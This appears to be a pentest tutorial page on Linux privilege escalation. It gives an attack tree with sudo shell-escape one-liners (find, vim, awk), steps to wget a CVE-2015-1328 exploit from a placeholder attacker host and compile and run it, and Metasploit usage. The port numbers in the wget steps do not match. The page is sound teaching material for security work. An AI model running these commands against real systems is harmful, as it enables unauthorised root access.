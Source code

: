 # Privilege escalation on Linux

## Attack tree

```text
2 Become root on Linux
    2.1 Find an exploit (software bug) in the operating system or other system services, for example a kernel exploit (OR)
        2.1.1 Detect vulnerabilities (AND)
        2.1.2 Develop or acquire exploit code (AND)
        2.1.3 Transfer the exploit to the target machine (AND)
        2.1.4 Execute the exploit on the target
    2.2 Find a misconfiguration in an existing legitimate tool, for example sudo
        2.2.1 Find which commands current user is allowed to use (sudo -l) (AND)
        2.2.2 Exploit the parameters of a command that is allowed to be executed with root permissions
            2.2.2.1 sudo find /etc/passwd -exec /bin/sh \; (OR)
            2.2.2.2 sudo vim -c '!sh' (OR)
            2.2.2.3 sudo awk 'BEGIN {system(“/bin/sh”)}' (OR)
            2.2.2.4 Other commands that are allowed to be executed with root permissions to invoke a shell
    2.3 Other privilege escalation
```

## Examples

### Kernel exploit CVE-2015-1328

For [CVE-2015-1328](https://ubuntu.com/security/CVE-2015-1328) exploit-db lists several possible exploits:

* [37292](https://www.exploit-db.com/exploits/37292)
* [37293](https://www.exploit-db.com/exploits/37293)
* [40688](https://www.exploit-db.com/exploits/40688) <= Metasploit, maybe there are other exploits too

#### Using 37292

1. Create a local file CVE-2015-1328.c in the `/tmp/` directory and paste the code in the file
2. Start a local python http server: `python -m http.server 8080`
3. From the target machine: `wget http://<IP address attack machine>:8888/CVE-2015-1328.c`
4. Compile on target machine: `gcc CVE-2015-1328.c -o exp`
5. Check current user: `id`
6. Run the compiled exploit: `./exp`
7. Check current user: `id`

#### Using 40688

1. Start a `meterpreter` session
2. Load the `local_exploit_suggester` module in `msfconsole`: `meterpreter> use post/multi/recon/local_exploit_suggester`
3. Set the SESSION option for the module to the session ID of the meterpreter session
4. `run`
5. Test the exploit modules recommended by `local_exploit_suggester`. The first few modules in the output usually 
have a higher chance of working successfully.
6. Load a module and set the module options
7. `exploit`
8. An exploit can fail for many reasons. If not works, try the next one or install missing components for it to run.

## Notes

* In horizontal privilege escalation an adversary expands privileges by taking over another account.
* In vertical privilege escalation an attacker attempts to gain more permissions or access with an existing compromised account.

### Kernel exploits

A failed kernel exploit can lead to a system crash. Make sure this potential outcome is acceptable within the scope of 
the penetration testing engagement before attempting a kernel exploit. 

Kernel exploit methodology:

1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit

You can transfer the exploit code from your machine to the target system using the SimpleHTTPServer Python module and 
wget respectively. 

## Tools

* [LinEnum](https://github.com/rebootuser/LinEnum)
* [PEASS-ng](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) is a script that searches for possible paths to escalate privileges on Linux/Unix* hosts. It also enumerates the system.
* [Linux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2) returns a list of possible CVEs, exploits, and exploit POCs (Proof of Concept) for the running Linux kernel.
* [GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can used to bypass local security restrictions in misconfigured systems.
* [Traitor](https://github.com/liamg/traitor) takes advantage of local misconfigurations and vulnerabilities (including most of GTFOBins) in order to pop a root shell. These are primarily misconfigurations, not exploits.


## Cheatsheets

* [Linux post exploitation enumeration](cheatsheets:docs/enumeration/linux-post)
